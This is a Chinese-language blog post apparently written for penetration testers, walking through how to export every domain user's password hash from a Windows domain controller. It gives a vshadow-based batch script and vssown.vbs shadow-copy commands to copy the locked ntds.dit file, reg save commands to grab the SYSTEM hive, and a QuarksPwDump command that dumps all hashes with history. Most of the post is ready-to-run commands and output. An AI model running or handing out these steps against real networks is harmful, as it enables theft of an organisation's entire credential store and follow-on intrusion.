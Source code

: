 ```yaml
---
layout: post
title: 导出域内所有用户hash
date: 2018-12-09 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/hashes.jpg?raw=true) 图片来源于https://www.youtube.com/watch?v=KnOJKRl7E0A

域内用户HASH是存在域控ntds.dit中的， 它的存放位置是C:\Windows\ntds.dit。ntds.dit在系统运行过程中是被系统锁定的，无法操作，因此第一步是先把ntds.dit复制一份出来，然后导出其中的用户hash。 




### \#0x01 拷贝ntds.dit
拷贝ntds.dit的方法有多种，这里说两种经常使用的。经过测试第一种方法导出的hash数量比第一种多，原因目前尚不知。  
windows系统中自带的工具vssadmin也可以很方便的拷贝ntds.dit，经过测试拷贝的ntds.dit不能直接用QuarksPwDump.exe导出hash，但可以使用impacket中的secretsdump.py导出hash，这种情况一般用在目标系统安装有python环境的情况下。  
#### 一、使用微软官方提供的卷影拷贝工具vshadow.exe复制ntds.dit  

现在官方不提供vshadow.exe的直接下载了，可以安装官方JDK，在安装目录下可以找到vshadow.exe，这里要注意操作系统的版本，特别是xp和server 2003。  
利用官方JDK生成vshadow.exe的方法虽然不用担心后门，但是操作实在麻烦，这里提供一个runtime的工具：[ShadowCopy](https://www.runtime.org/shadow-copy.htm)，安装后在安装目录下可以找到各系统版本对应的vshadow.exe。  


为了方便使用vshadow.exe，这里提供一个脚本：ShadowCopy.bat，内容如下：  
```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
```
vshadow.exe和ShadowCopy.bat上传到域控的同一目录，执行完ShadowCopy.bat后，ntds.dit便会被复制到当前目录。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vshadow_bat.jpeg?raw=true)

在导出hash之前，ntds.dit需要使用esentutl工具修复  
```
esentutl /p /o ntds.dit
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/esentutl.jpeg?raw=true)

导出ntds.dit后为了解密，还需要导出syskey   
```
reg save hklm\system c:\perflogs\system.hive
```

#### 二、使用vssown.vbs复制ntds.dit
vssown.vbs脚本在这里下载的：[vssown.vbs](https://github.com/PythonPig/pentest-tools/blob/master/password-cracking/vssown.vbs)  

查看vssown.vbs的使用方法：  
cscript vssown.vbs，主要的命令如下：  
```
cscript vssown.vbs /start
cscript vssown.vbs /list
cscript vssown.vbs /create c
cscript vssown.vbs /delete id
cscript vssown.vbs /stop
```
1、启动服务  
```
cscript vssown.vbs /start
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20start.jpeg?raw=true)

2、查看系统已有的快照并记录  
```
cscript vssown.vbs /list
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list.jpeg?raw=true)

3、创建c盘快照  
```
cscript vssown.vbs /create c
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20create.jpeg?raw=true)

4、查看新增的快照  
```
cscript vssown.vbs /list
```
通过与第2步中的快照对比可知哪个快照是新增的，执行命令后最先显示出的快照一般是最新创建的。  
记录最新创建快照的ID和Device Object  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list2.jpeg?raw=true)

5、从快照中拷贝ntds.dit和syskey  
本次操作需要使用第4步中得到的快照ID和Device Object  
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\ntds\ntds.dit C:\perflogs
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\system32\config\SYSTEM C:\perflogs\system.hive
```
拷贝ntds.dit：
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20ntds.jpeg?raw=true)  

拷贝syskey：
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20syskey.jpeg?raw=true)

syskey也可以这样导出  
```
reg save hklm\system c:\perflogs\system.hive
```

6、删除快照并停止服务  
```
cscript vssown.vbs /delete {D61DE4C9-029E-42E7-9A93-64529039FD54}
cscript vssown.vbs /stop
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20delete%20stop.jpeg?raw=true)

### \#0x02 从ntds.dit导出所有用户hash
因为ntds.dit文件一般比较大，传回本地不太方便，所以直接在目标服务器上导出用户hash。    

```
QuarksPwDump.exe --dump-hash-domain --with-history --ntds-file c:\perflogs\ntds.dit --system-file c:\perflogs\system.hive -o c:\perflogs\res.txt
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/quarkspwdump.jpeg?raw=true)

一定要注意这里要使用绝对路径，选项参数之间只能有一个空格，用到的[QuarksPwDump.exe在这里](https://github.com/quarkslab/quarkspwdump)，下载源码后vs2010直接编译即可

### \#0x03 参考
* [完整导出域内用户hash小记 (vshadow + ShadowCopy + QuarksPwDump)](https://klionsec.github.io/2016/08/14/shadow-copy-hash/)
* [导出域内用户hash的几种方法](https://cloud.tencent.com/developer/article/1165439)  
* [完整导出域内用户hash小记 (vssown.vbs + libesedb + NtdsXtract)](https://klionsec.github.io/2016/08/13/vssown-vbs-libesedb-NtdsXtract/)  

